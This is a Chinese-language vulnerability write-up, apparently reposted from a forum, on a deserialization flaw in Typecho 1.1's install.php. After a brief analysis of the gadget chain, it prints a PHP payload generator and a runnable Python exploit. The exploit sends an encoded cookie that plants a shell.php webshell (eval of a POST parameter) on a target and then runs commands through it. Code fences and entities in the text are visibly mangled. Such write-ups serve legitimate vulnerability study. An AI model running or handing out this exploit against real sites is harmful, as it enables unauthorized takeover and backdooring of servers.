








# Typecho 1.1 反序列化漏洞导致前台getshell

> 原文：[https://www.zhihuifly.com/t/topic/3205](https://www.zhihuifly.com/t/topic/3205)

# Typecho 1.1 反序列化漏洞导致前台getshell

## 一、漏洞简介

## 二、漏洞影响

Typecho 1.1

## 三、复现过程

### 漏洞分析

复现环境：PHP5.6+Apache+Windows



`Typecho_Cookie::get`目的是获取Cookie，可从Cookie或POST中获取



要执行到此处需要经过前面的各种判断条件：

1.  $_GET[‘finish’] 不为空
2.  $_SERVER[‘HTTP_REFERER’] 不为空

```
//判断是否已经安装
if (!isset($_GET['finish']) && file_exists(__TYPECHO_ROOT_DIR__ . '/config.inc.php') && empty($_SESSION['typecho'])) {
    exit;
}
// 挡掉可能的跨站请求
if (!empty($_GET) || !empty($_POST)) {
    if (empty($_SERVER['HTTP_REFERER'])) {
        exit;
    }
} 
```

接下来需要寻找利用链，常见魔法方法：

```
__construct()//创建对象时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发
__wakeup() //使用unserialize时触发
__sleep() //使用serialize时触发
__toString()//类当String用 
```

误以为是通过__desctruct()和__wakeup()触发，没想到起始是利用__toString()，接着通过__get()触发。

回到`install.php`中看232行中$config[‘adapter’]作为了Typecho_Db()参数，只要控制$config[‘adapter’]的值为某一个类的对象就可以触发__toString()，那么$config的值应为一个数组。




接下来寻找__toString()方法，在`var/Typecho/Feed.php`中找到



$item可控，如果$item[‘author’]为某个不存在screenName属性的类对象时，自动触发__get()方法`var/Typecho/Request.php`，如下图，显然可控吧~



### 漏洞复现

根据漏洞分析写出poc

```
<?php
class Typecho_Request{
	private $_params = array();
	private $_filter = array();

```
public function __construct(){
	$this-&gt;_params = array("screenName"=&gt;"id");
	$this-&gt;_filter = array("system");
} 
```

}

class Typecho_Feed{

private $_items = array();

private $_type;

```
public function __construct(){
	$this-&gt;_items = array(
		array(
			"author"=&gt;new Typecho_Request(),
			"link"=&gt;"link",
			"title"=&gt;"title",
			"date"=&gt;"date",
			"category"=&gt;array(new Typecho_Request()),#注意点
		)
	);
	$this-&gt;_type = "RSS 2.0";
} 
```

} `$a =  array(“adapter”=>new Typecho_Feed());

#echo serialize(($a))."\n";

echo base64_encode(serialize(($a)))."\n";` 
```

> 关于poc中注意点说明：
> 
> 在漏洞分析时并没有涉及该行相关数据，在没有这一行数据时：
> 
> 程序继续进入到Db.php的构造方法中，并在下图汇总抛出异常



如果是命令是写入文件，则不会影响结果，但如果需要显示命令结果，则无法实现，因而考虑在抛出异常之前结束运行程序运行



最终结果



Python脚本，**仅用作学习目的**

```
import sys
import requests

class Typecho_install_getshell_Test:

def **init**(self,url):

self.url = url

```
def run(self):
    headers = {
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36",
        "Cookie":"__typecho_config=YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6NTp7czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NjU6ImZpbGVfcHV0X2NvbnRlbnRzKCdzaGVsbC5waHAnLCc8P3BocCBAZXZhbCgkX1BPU1RbXCdwYXNzXCddKTs/PicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX1zOjQ6ImxpbmsiO3M6NDoibGluayI7czo1OiJ0aXRsZSI7czo1OiJ0aXRsZSI7czo0OiJkYXRlIjtzOjQ6ImRhdGUiO3M6ODoiY2F0ZWdvcnkiO2E6MTp7aTowO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NjU6ImZpbGVfcHV0X2NvbnRlbnRzKCdzaGVsbC5waHAnLCc8P3BocCBAZXZhbCgkX1BPU1RbXCdwYXNzXCddKTs/PicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX1zOjE5OiIAVHlwZWNob19GZWVkAF90eXBlIjtzOjc6IlJTUyAyLjAiO319;XDEBUG_SESSION=15908",
        "Referer":self.url,
    }
    vulnpath = self.url + "/install.php?finish=1"
    try:
        requests.get(vulnpath,headers=headers,timeout=10)
        shellpath = self.url + "shell.php"
        data = {
            "pass":"phpinfo();",
        }
        re = requests.post(shellpath,headers=headers,data=data,timeout=10)
        re.encoding = re.apparent_encoding
        if "Configure Command " in re.text:
            print("[+]Typecho反序列化漏洞存在! \nPayload: "+ shellpath + "\tPassWord: pass")
        else:
            print("[-]Typecho漏洞可能不存在!")
    except:
        print("[-]Something wrong!") 
``` `if **name** == “**main**”:

Vuln = Typecho_install_getshell_Test(sys.argv[1])

Vuln.run()` 
```

## 参考链接

> http://pines404.online/2020/01/25/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/Typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/